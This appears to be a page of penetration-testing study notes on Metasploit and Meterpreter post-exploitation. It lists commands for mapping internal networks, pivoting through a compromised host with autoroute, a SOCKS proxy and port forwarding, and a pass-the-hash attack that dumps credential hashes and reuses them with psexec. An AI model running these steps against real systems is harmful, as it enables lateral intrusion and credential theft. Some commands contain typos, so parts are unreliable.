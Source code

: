 * * *

* * *

## Mapping Networks

- `ipconfig` for windows and `ifconfig` for linux.
    
- `route print` in windows  
    `route -v` in linux  
    `route` in meterpreter  
    `route print:` in OS shell.  
    `ipconfig /displaydns`  
    `use sniffer`, `sniffer_start 2`, `sniffer_stop 2`
    
- `arp`
    
- `netstat`
    
- `run arp_scanner -h` in meterpreter. For example, `run arp_scanner -r 10.10.10.0/24`
    
- `ping_sweep`: `use post/exploit/gather/ping_sweep`
    
- `run netenum -h`  
      
    
- Pivoting
    
    - `route add 10.10.10.0 255.255.255.0 2` tells metasploit to route all traffic intended to 10.10.10.0./24 to route through meterpreter session 2.  
        `run autoroute -s 10.10.10.0/24`  
        If the victim 2 can only with hosts in the subnets then we need another route in exploited machine directing to our subnet so that the victim tried to contact us through exploited machine.  
        For simple tcp port scan: `use auxiliary/scanner/portscan/tcp`
    - `use auxiliary/server/socks4a`  
        `netstat -tulpn | grep 1080`  
        edit /etc/proxychain.conf last line as `sock4 127.0.0.1 1080`  
        `proxychains nmap -sT -Pn -n 10.10.10.5 --top-ports 50`  
        `proxychain iceweasel`
    - `portfwd add -l 3333 -p 3389 -r 10.10.10.5`  
        `netstat -tulpn | grep 3333`  
        `rdesktop 127.0.0.1:3333`

* * *

* * *

## Exploitation through pivoting

- Pass-the-hash  
    `hashdump` get the username and hash.  
    `use exploit/windows/smb/psexec`  
    `set payload [payload_needed]`  
    `set RHOST [target_ip]`  
    `set SMBUser [username]`  
    `set SMBPass [hash]`
